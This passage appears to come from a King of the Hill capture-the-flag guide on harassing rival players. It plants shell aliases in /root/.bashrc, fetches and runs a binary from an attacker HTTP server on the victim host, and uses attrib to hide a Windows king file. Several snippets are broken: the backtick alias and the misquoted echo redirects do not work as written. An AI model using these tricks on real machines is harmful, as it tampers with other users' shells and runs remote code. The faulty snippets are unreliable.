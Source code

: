 ## Trolling 

* Another fun part of koth is trolling!

### Aliases

* Aliases are shortcuts or alternate names for commands, files, or addresses, commonly used in computing for convenience and efficiency. 

* Here's how you can use aliases for defense/trolling:

```bash
alias cat=`ls -la`
echo "alias ls='exit' > /root/.bashrc"
echo "alias id='/tmp/nyancat' > /root/.bashrc"
```

### Nyancat

* `nyancat` is also another epic way to troll. Here's how to use it:
* Build your own `nyancat`: [nyan](https://github.com/klange/nyancat)

```bash
## Attacker 
$ python3 -m http.server 80

## Victim 
$ wget 10.10.x.x/nyancat -O .nyan && chmod +x .nyan
$ ./.nyan > /dev/pts/{num}
```

### Custom `.bashrc` 

* Create a custom `.bashrc` file, this can be used to configure how the terminal functions when using `bash`
* There are dozens of code examples online, you can read them, and create your own


## Windows Machines

* Up to now, only two windows machines are present: `offline h1-medium`

* Also, these boxes are easy to pwn, however, most people find it confusing to protect king file in windows boxes

#### Solution:

* `attrib` is a program/binary for windows boxes similar to `chattr` 

##### Examples:
1. `attrib +a king.txt` - Sets the archive attribute, indicating the file is ready for backup 
2. `attrib +s king.txt` - Marks the file as a system file, which is typically hidden from standard views
3. `attrib +r king.txt` - Makes the file read-only, preventing modifications
4. `attrib +h king.txt` - Hides the file from normal directory listings
5. `attrib +a +s +r +h king.txt` - Sets the archive, system, read-only, and hidden attributes, effectively locking the file 
